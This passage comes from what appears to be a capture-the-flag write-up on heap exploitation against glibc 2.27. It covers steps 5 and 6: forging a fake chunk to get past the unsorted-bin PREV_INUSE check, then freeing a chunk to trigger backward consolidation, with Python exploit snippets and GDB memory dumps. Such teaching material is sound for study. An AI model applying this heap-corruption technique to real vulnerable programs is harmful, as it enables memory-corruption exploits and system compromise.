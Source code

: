 * The most important aspect of this is that we ***still*** have a pointer to chunk B.

#### Step 5: **Setup chunk C for the unsorted bin**

* Since chunk C's size has changed from 0x121 to 0x100, we must create a fake chunk within chunk C. We need to do this now because freeing chunk C will insert it into the unsorted bin as the 0xf0 tcache bin is full (remember that the 0x100 size includes metadata, so the chunk really has a size of 0xf0 without the metadata).

```python
# Before we free chunk C, we must create a fake chunk 0x100 bytes after chunk C
# This fake chunk must have its PREV_INUSE bit set to 1, hence we choose size 0x21
# This is required to bypass some checks when a chunk is freed into the unsorted bin
talk(2, 'C'*0xf8 + p64(0x21) + '\n')
```

```c
gef➤  x/50gx 0x55a7bc2544a0
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- chunk C
0x55a7bc2544b0: 0x4343434343434343      0x4343434343434343
...
0x55a7bc254590: 0x4343434343434343      0x4343434343434343
0x55a7bc2545a0: 0x4343434343434343      0x0000000000000021 <- fake chunk inserted to bypass security checks
0x55a7bc2545b0: 0x0000000000000000      0x0000000000000000
0x55a7bc2545c0: 0x0000000000000000      0x0000000000000101 <- actual next chunk after C
0x55a7bc2545d0: 0x0000000000000000      0x0000000000000000
```

* When the chunk is put into the unsorted bin, there are some security checks that we must bypass, and this fake chunk helps with that. More details below.

#### Step 6: **Free chunk C, causing the backwards consolidation**

```python
# We free C now.
# C's prev_size is 0x250, so it will consolidate backwards 0x250 bytes (all the way up to A)
# Unsorted bin will now have a 0x350 sized chunk right on top of A
# A's fd and bk pointers will still have pointers to `main_arena+0x58`
free(2)
```

* Now, after all this preparation, we free chunk C. This calls `_int_free()`. First, the tcache bin 0xf0 is checked to see if there is space in it, but it's already full, so chunk C is then placed into the unsorted bin.

* While this is done, chunk C's size is checked, and it is seen to be 0x100. `_int_free()` will then check for a chunk 0x100 bytes after chunk C to ensure that that chunk's `PREV_INUSE` bit is set to 1. If it is not, then `_int_free()` will error out saying `"double free or corruption (!prev)"`, since chunk C will appear to be free if the next chunk's `PREV_INUSE` bit is not set.  

* Since we changed chunk C's size from 0x121 to 0x100, there isn't a chunk 0x100 bytes after chunk C, which is why we placed a chunk there ourselves in the previous step with its `PREV_INUSE` bit set. This check is documented [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L4279):
